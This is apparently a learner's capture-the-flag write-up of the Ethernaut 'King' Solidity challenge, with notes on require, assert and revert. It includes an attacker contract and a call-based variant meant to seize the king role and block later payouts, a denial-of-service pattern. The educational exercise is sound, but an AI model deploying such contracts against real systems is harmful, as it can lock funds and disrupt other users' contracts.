

## Description
It wasn't clear where to start, I couldn't find anywhere to try to exploit or hack anything except in these lines :
```
require(msg.value >= prize || msg.sender == owner);
```
```
payable(king).transfer(msg.value);
```
That's why I started to read first for require, because I realized that I don't fully understand how it works inside. In the end, I learned a lot of new things for myself. I'll leave it in my notes. I realized that the solution is probably in the second line. Went to read more for receiving, found a solution to the previous problem that I missed. And came up with the idea that king would be the address of the contract and make some receive function in it.
```
interface IKing {
    
}

contract Hack{
    IKing public king;

    constructor(address payable _king) {
        king = IKing(_king);
    }

    receive() external payable {
        payable(address(king)).transfer(msg.value);
    }

}
```
## Notes
revert - for more complex logic, with if else
assert - to check for a logic error that should not be there, takes away the gas, saves the error in bytecode differently (Panic(uint256) 0x00, 0x01 ...) so that it can be traced as far as I understand. a > b+c; assert( a > b). internal errors. 
require - for user checking.
But while reading about all this, I came across how to fulfill the previous task


## Updated
It worked through the call.
```
payable(address(king)).call{value: msg.value}("");
```
Read the answers, I didn't get that it is possible to remove the receive from the contract and that's it.  